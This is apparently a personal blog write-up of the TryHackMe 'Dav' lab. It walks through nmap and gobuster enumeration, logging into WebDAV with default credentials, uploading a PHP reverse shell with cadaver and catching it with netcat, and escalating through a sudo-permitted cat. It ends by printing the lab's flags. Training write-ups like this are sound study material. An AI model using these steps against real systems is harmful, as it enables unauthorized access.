 ```yaml
---
title: TryHackMe - Dav Writeup
description: My writeup on Dav box. 
categories:
 - tryhackme
tags: tryhackme, dav, sudo, shell, exploit, cadaver
---
```


You can find the machine there > [Dav](https://tryhackme.com/room/bsidesgtdav){:target="_blank"}

As always let's start with a nmap scan.

```
$ ip=10.10.242.239
$ nmap -sC -sV -oN initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 16:54 EEST
Nmap scan report for 10.10.242.239 (10.10.242.239)
Host is up (0.17s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

When we visit the webpage we can see the Apache2 default page, let's run gobuster.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt
/webdav (Status: 401)
```

When we visit `/webdav` asks for credentials :

![](https://i.ibb.co/Dtc2Y2B/Screenshot-4.png)

WebDAV (Web Distributed Authoring and Versioning) allows users to update, upload, delete, move, copy files.

I searched for default credentials and i found :

```
user: wampp
pass: xampp
```

And we're in, now we can use `cadaver` (webdav client), to upload a shell.

```
$ cadaver http://$ip/webdav
Authentication required for webdav on server `10.10.67.29':
Username: wampp
Password: 
dav:/webdav/> put shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 5492 bytes succeeded.
dav:/webdav/> 
```

Now we can execute it and take shell.

```
$ nc -lvp 6666
listening on [any] 6666 ...
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ 
```

Now privesc is silly, we can run `cat` as root :

```
www-data@ubuntu:/$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

So let's read the flags.

```
www-data@ubuntu:/home/merlin$ cat user.txt
cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```

See you!

